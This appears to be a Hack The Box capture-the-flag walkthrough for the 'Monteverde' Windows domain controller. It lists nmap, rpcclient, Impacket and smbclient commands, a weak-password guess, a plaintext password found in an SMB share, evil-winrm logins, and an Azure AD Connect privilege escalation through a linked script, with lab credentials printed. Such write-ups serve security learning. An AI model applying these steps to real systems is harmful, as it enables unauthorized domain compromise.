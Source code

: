 # Monteverde
## NMap
`nmap -A -T5 -p- 10.10.10.172`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 14:46 CET
Nmap scan report for 10.10.10.172
Host is up (0.054s latency).
Not shown: 65518 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-24 13:01:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49775/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/24%Time=5E7A0FEC%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -48m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-24T13:03:52
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   53.68 ms 10.10.14.1
2   54.11 ms 10.10.10.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 434.17 seconds
```

`nmap -n -sV --script "ldap*" -p 389 monteverde.htb` -> result [here][2]


## Enumerating RPC

`rpcdump.py 10.10.10.172 -p 135 > rpcdump.log` [rpcdump.log][4] 

`rpcclient -W workgroup -c querydispinfo -U '' -N monteverde.htb`

```
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
## GetADUSer Impacket

`GetADUsers.py -all megabank.local/ -dc-ip 10.10.10.172`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-03-24 06:18:32.499762 
mhope                                                 2020-01-03 00:40:05.908924  2020-03-24 14:42:29.953052 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-03-24 12:19:19.202876 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```
***SABatchJobs:SABatchJobs*** can log via smb

## Smbclient

`smbclient -L //10.10.10.172 -U SABatchJobs`

`smbclient //10.10.10.172/users$ -U SABatchJobs`

inside Directory mhope there is a file [azure.xml][3] containing a password

***mhope:4n0therD4y@n0th3r$***

## Evil win

`ruby evil-winrm.rb -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r\$`

## Azure exploit
Run [a.ps1][1]
***administrator:d0m@in4dminyeah!*** login via evil win 

[#]://
[1]: a.ps1
[2]: nmap-ldap.txt
[3]: azure.xml
[4]: rpcdump.log 

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
